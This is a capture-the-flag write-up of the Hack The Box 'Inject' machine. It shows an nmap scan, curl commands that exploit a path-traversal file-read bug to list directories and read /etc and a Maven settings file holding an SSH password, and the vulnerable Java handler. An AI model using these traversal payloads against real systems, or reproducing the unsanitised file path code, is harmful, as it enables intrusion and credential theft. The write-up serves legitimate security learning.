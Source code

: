 # Default Information
OS: Linux
Vulnerabilties exploited: LFI, CVE-2022-22963, ansible

# Nmap
Executing our usual nmap, we can see that this machine is a relatively simple machine with only port 22 and port 8080  being exposed to the public

```bash
PORT      STATE    SERVICE      REASON      VERSION
22/tcp    open     ssh          syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp  open     nagios-nsca  syn-ack     Nagios NSCA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
```

# Enumerating Port 8080
Exploring http://inject.htb:8080, we discover an ```/upload``` endpoint that allows us to save an image file and the saved image file is saved to http://inject.htb:8080/show_image?img=<file name>
  
In the uploaded image url,  we are able to find a LFI vulnerability that can be exploited

![LFI exploitation](https://github.com/joelczk/writeups/blob/main/HTB/Images/Inject/inject_lfi.png)
  
Bruteforcing the endpoints, we notice that we can access the following endpoints
```
/etc/passwd
/etc/group
/etc/hosts
/etc/issue
/etc/crontab
/etc/fstab
/etc/nginx/nginx.conf
/etc/nginx/sites-available/default
/etc/ssh/sshd_config
/proc/self/fd/5
/proc/self/fd/4
/etc/shells
```
  
However, this LFI vulnerability is different from the typical LFI vulnerability as we are able to list the directory contents and we do not need to know the full file path to list the file contents. For example, we can use ```/home``` as the payload to list all the files and directories in the ```/home``` directory
  
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://inject.htb:8080/show_image?img=../../../../../../home
frank
phil
```
  
Using the LFI vulnerability, we can obtain the SSH password for the ```phil``` user
  
```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://inject.htb:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
  
However, we realize that we are unable to login as phil user via SSH with the password that we have obtained. This is because ```phil``` is denied from SSH access in the ```/etc/ssh/sshd_config``` file

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://inject.htb:8080/show_image?img=../../../../../../etc/ssh/sshd_config | grep DenyUsers
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3304  100  3304    0     0   3275      0  0:00:01  0:00:01 --:--:--  3277
DenyUsers phil
```

# Afterthoughts
## Analysis of LFI
After digging furthur at the LFI, I was able to find the source of the vulnerability at the ```getImage``` function at ```/var/www/WebApp/src/main/java/com/example/WebApp/user/UserController.java```
  
```
    @RequestMapping(value = "/show_image", method = RequestMethod.GET)
    public ResponseEntity getImage(@RequestParam("img") String name) {
        String fileName = UPLOADED_FOLDER + name;
        Path path = Paths.get(fileName);
        Resource resource = null;
        try {
            resource = new UrlResource(path.toUri());
        } catch (MalformedURLException e){
            e.printStackTrace();
        }
        return ResponseEntity.ok().contentType(MediaType.IMAGE_JPEG).body(resource);
    }
```  

  
  
